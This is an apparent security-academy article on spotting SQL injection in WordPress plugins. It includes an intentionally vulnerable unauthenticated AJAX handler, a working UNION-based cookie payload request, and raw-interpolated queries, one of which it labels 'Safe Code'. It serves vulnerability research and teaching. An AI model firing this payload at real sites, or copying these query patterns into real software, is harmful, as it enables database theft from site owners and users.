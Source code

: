 ```yaml
---
title: SQL Injection (SQLi)
head:
    - tag: title
      content: Learn about SQL Injection (SQLi)
contributors:
    - rafiem
    - bk273
---
```




## Introduction

This article covers cases of possible SQLi on WordPress. This includes improper usage of functions and user input handling inside of the plugin/theme which can be used to inject a malicious query into the SQL execution to leak sensitive data.

<LinkCard
  title="Learn how to secure your code against SQL Injection"
  href="/academy/wordpress/securing-code/sql-injection/"
/>


## Useful Functions

Several functions could be useful to identify a possible SQLi vulnerability:

- [`$wpdb->query`](https://developer.wordpress.org/reference/classes/wpdb/query/)
- [`$wpdb->get_var`](https://developer.wordpress.org/reference/classes/wpdb/get_var/)
- [`$wpdb->get_row`](https://developer.wordpress.org/reference/classes/wpdb/get_row/)
- [`$wpdb->get_col`](https://developer.wordpress.org/reference/classes/wpdb/get_col/)
- [`$wpdb->get_results`](https://developer.wordpress.org/reference/classes/wpdb/get_results/)

## Example Cases

Below is an example of vulnerable code:

```php
add_action("wp_ajax_nopriv_load_questions", "load_questions");

function load_questions(){
    global $wpdb;

    $quiz_id = $_GET["quiz_id"];

    if ( isset($_COOKIE[ 'question_ids_'.$quiz_id ]) ) {
        $question_sql = sanitize_text_field( wp_unslash( $_COOKIE[ 'question_ids_'.$quiz_id ] ) );
    }else {
        $question_ids = array("1","2","3");
        $question_sql = implode( ',', $question_ids );
    }
    
    $order_by_sql = 'ORDER BY FIELD(question_id,'.$question_sql.')';

    $query     = $wpdb->prepare( "SELECT * FROM {$wpdb->prefix}custom_questions WHERE question_id IN (%1s)", $question_sql);
    $questions = $wpdb->get_results( stripslashes( $query ) );

    wp_send_json($questions);
}
```

The vulnerable variable, in this case, is the `$question_sql` variable where the value is passed from `$_COOKIE[ 'question_ids_'.$quiz_id ]` value without proper sanitization or escaping. The `sanitize_text_field` function is not enough to prevent SQL Injection since the `$question_sql` variable is constructed inside an ORDER BY clause without proper escaping.

To exploit this, any unauthenticated user just needs to perform a POST request to the `/wp-admin/admin-ajax.php` endpoint specifying the needed action and parameter to trigger the SQL Injection (let's say that the `{$wpdb->prefix}custom_questions` table has 5 columns):

```http
GET /wp-admin/admin-ajax.php?action=load_questions&quiz_id=1 HTTP/1.1
Host: localhost
Cookie: question_ids_1=1%29%20and%20false%20union%20select%20database%28%29%2C%271337%27%2C%271337%27%2Cuser%28%29%2C%271337%27%20--%20-%20
Connection: close

```

Below are some of the findings related to SQLi:

- [Critical Vulnerabilities Patched in REHub Theme and Plugin](https://patchstack.com/articles/critical-vulnerabilities-patched-in-rehub-theme-and-plugin/)
- [Critical SQL Injection Found in Porto Theme's Plugin](https://patchstack.com/articles/critical-sql-injection-found-in-porto-themes-plugin/)
- [Multiple High and Critical Vulnerabilities in Avada Theme and Plugin](https://patchstack.com/articles/multiple-high-and-critical-vulnerabilities-in-avada-theme-and-plugin/)
- [Critical Unauthenticated SQL Injection in Quiz And Survey Master \<= 8.1.4](https://patchstack.com/articles/critical-unauthenticated-sql-injection-in-quiz-and-survey-master/)
- [Multiple Vulnerabilities Fixed In WP Statistics Plugin Version \<= 13.2.10](https://patchstack.com/articles/multiple-authenticated-sql-injection-fixed-in-wp-statistics-plugin-version-13-2-10/)
- [Multiple Critical Vulnerabilities Fixed In LearnPress Plugin Version \<= 4.1.7.3.2](https://patchstack.com/articles/multiple-critical-vulnerabilities-fixed-in-learnpress-plugin-version/)


## Magic Quotes

Magic Quotes is/was a feature in PHP designed to automatically escape certain characters in user input to prevent SQL injection (SQLi) attacks. Specifically, it would escape single quotes ('), double quotes ("), backslashes (\), and NULL characters by automatically adding backslashes before them. This was done to protect against common vulnerabilities like SQL injection, where an attacker might try to insert malicious SQL code into a query.

It is not the perfect solution. It is mostly inconsistent, meaning that it only escapes certain characters. Depending on how the code works it might still allow for SQL injections or corrupted data in the database.

It was optional for PHP but it is disabled. Why we are mentioning it here? It still lives in WordPress via [`wp_magic_quotes()`
](https://developer.wordpress.org/reference/functions/wp_magic_quotes/).

As mentioned on that page, it is a private function so developers don't need to implement it. If any code is executed inside WordPress hooks, inputs (`$_GET`, `$_POST`, `$_COOKIE`, and `$_SERVER`) will go through the [`add_magic_quotes()`](https://developer.wordpress.org/reference/functions/add_magic_quotes/)

```php
function add_magic_quotes( $input_array ) {
	foreach ( (array) $input_array as $k => $v ) {
		if ( is_array( $v ) ) {
			$input_array[ $k ] = add_magic_quotes( $v );
		} elseif ( is_string( $v ) ) {
			$input_array[ $k ] = addslashes( $v );
		}
	}

	return $input_array;
}
```

and gets sanitized due to [`addslashes()`](https://www.php.net/manual/en/function.addslashes.php).

So even a super simple vulnerable-looking code like `select * from users where '$injection_here';` will be escaped and turn into something like `SELECT * FROM users where '\'testpayload';` inside a WordPress hook and you will not be able to exploit it in almost all scenarios.

Safe Code:

```php
add_action('init', function() {
    $input = $_POST['input']; 
    global $wpdb;
    $query = "SELECT * FROM users WHERE name = '$input'";
    $result = $wpdb->get_results($query);
    // Display the result
    if ($result) {
        foreach ($result as $row) {
            echo "User: " . esc_html($row->name);
        }
    }
});
```

Vulnerable Code:

```php
add_action('init', function() {
    $input = wp_unslash($_POST['input']); 
    global $wpdb;
    $query = "SELECT * FROM users WHERE name = '$input'";
    $result = $wpdb->get_results($query);
    // Display the result
    if ($result) {
        foreach ($result as $row) {
            echo "User: " . esc_html($row->name);
        }
    }
});
```

If the input is unslashed using [`wp_unslash()`](https://developer.wordpress.org/reference/functions/wp_unslash/) it will still be exploitable.
